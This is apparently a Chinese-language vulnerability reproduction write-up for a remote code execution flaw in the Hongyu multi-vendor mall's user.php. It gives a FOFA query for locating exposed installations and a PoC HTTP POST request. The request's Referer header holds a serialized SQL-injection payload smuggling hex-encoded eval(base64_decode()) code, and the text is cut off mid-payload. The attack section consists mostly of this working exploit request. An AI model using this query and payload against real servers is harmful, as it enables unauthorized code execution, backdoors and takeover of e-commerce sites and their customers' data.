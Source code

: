 
# 鸿宇多用户商城 user.php RCE 漏洞复现

### 0x01 产品简介

   鸿宇多用户商城是一款支持各行业的多商家入驻型电商平台系统，商家版 APP，微信商城，小程序及各种主流营销模块应有尽有，是一个功能强大的电子商务平台，旨在为企业和个人提供全面的在线购物解决方案。

### 0x02 漏洞概述

  鸿宇多用户商城 user.php 存在任意命令执行漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

### 0x03 复现环境

FOFA：body="content=HongYuJD" && body="68ecshopcom\_360buy"

![](assets/1701746429-4b9f48d4c3e0362ec3935f32449a1105.png)

### 0x04 漏洞复现 

PoC

```cobol
POST /user.php HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:233:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b6576616c09286261736536345f6465636f64650928275a585a686243
```
